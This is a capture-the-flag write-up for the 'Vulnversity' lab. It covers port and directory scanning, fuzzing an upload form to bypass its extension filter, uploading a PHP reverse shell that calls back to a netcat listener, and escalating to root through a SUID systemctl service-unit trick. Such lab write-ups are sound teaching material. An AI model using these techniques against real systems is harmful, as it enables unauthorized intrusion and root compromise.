

[](https://portswigger.net/burp)
[](https://github.com/OJ/gobuster)
[](https://nmap.org/)
[](https://nc110.sourceforge.io/)

# Vulnversity

## Reconnaissance
### Port scanning
First step in every challenge is reconnaissance.<br>
We can find out which ports are open and which software is running on them using the program nmap with the `-sV` option (finds out the version of the programs listening on the  open ports):
```
┌──(kali㉿kali)-[~]
└─$ nmap -sV $TARGET_IP
Host is up (0.052s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

From the scan we can see that there are several open ports, but we'll start with the http server running on port 3333 (as we will see it's actually vulnerable). Another useful information that we got through nmap is that the server is probably running Ubuntu, so we will have to exploit a Linux system.

### Port 3333: Website exploration
Opening on the browser the address `http://$TARGET_IP:3333` we obtain the homepage of a website. While we explore the surface through the browser we launch a dir scan with gobuster:
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://$TARGET_IP:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.132.26:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/01/24 15:15:53 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 320] [--> http://10.10.132.26:3333/images/]
/css                  (Status: 301) [Size: 317] [--> http://10.10.132.26:3333/css/]
/js                   (Status: 301) [Size: 316] [--> http://10.10.132.26:3333/js/]
/fonts                (Status: 301) [Size: 319] [--> http://10.10.132.26:3333/fonts/]
/internal             (Status: 301) [Size: 322] [--> http://10.10.132.26:3333/internal/]
```

We can see now a uncommon directory: `/internal`. Visiting it we get to a upload form `/internal/index.php`.<br>

Repeating the process with `/internal` we discover the subdirectory `/internal/uploads`.

## Gaining access
### Fuzz our way in
Trying to upload some random file as a test we notice that all downloaded files will be refused by the site. At this point we should fuzz the upload request and discover the accepted extensions.<br>
To do this we can use Burp Suite's intruder: intercepting an upload request we can send it to the intruder and add a list of items to test in sniper mode. The string to fuzz has to be delimited by the characters `§.ext§`.<br>
In our case the file extension list is given by the challenge creators and it's pretty short:
```
.php
.php3
.php4
.php5
.phtml
```

The request seen from the intruder should look like this:


All the requests will receive a 200 as response status, but only .phtml will have a different response length, so we can assume and then test that .phtml files can be uploaded.<br>

### Get a reverse shell
Since we can upload a code file why not try upload a [reverse shell](./php-reverse-shell.phtml)? Remember to change IP and port to match yours!<br>
Before upload we set our pc to listen on port 1234 with `netcat -lvnp 1234`, then we upload the reverse shell, open from browser `/internal/uploads` and select the reverse shell from the list of uploaded files. On the terminal with netcat we will find our shell:
```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234          
listening on [any] 1234 ...
connect to [10.18.20.168] from (UNKNOWN) [10.10.183.143] 48266
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 09:05:15 up 46 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

We can find out the computer user by visiting `/home`, which contains the home directories of the pc users. The user flag will be in `/home/bill/user.txt`.

## Privilege escalation
In linux there's a special type of file permission: SUID.
```
SUID mode gives the executing file his owners privileges, instead of the one of the runner; which means that if the owner is root, the executables will run with root privileges
```

Given that we need to search for SUID executables on the machine with the following command:
```
find / -perm -u=s -type f 2>/dev/null
```

Between this files theres `/bin/systemctl`, which is the executable responsible for starting, enabling and stopping the services on the machine.<br>
To read the root flag in `/root/root.txt` we can create and run a process which will read it while having root privileges and put it in a file.
```
www-data@vulnuniversity:/$ TF=$(mktemp).service
www-data@vulnuniversity:/$ echo '[Service]
> ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
> [Install]
> WantedBy=multi-user.target' >$TF 
www-data@vulnuniversity:/$ /bin/systemctl link $TF                                                                                              
Created symlink from /etc/systemd/system/tmp.M0ESakgCCs.service to /tmp/tmp.M0ESakgCCs.service.
www-data@vulnuniversity:/$ /bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.M0ESakgCCs.service to /tmp/tmp.M0ESakgCCs.service.
www-data@vulnuniversity:/$ cat /tmp/output
*******************************
```

In the same way we got the flag we can get a root reverse shell!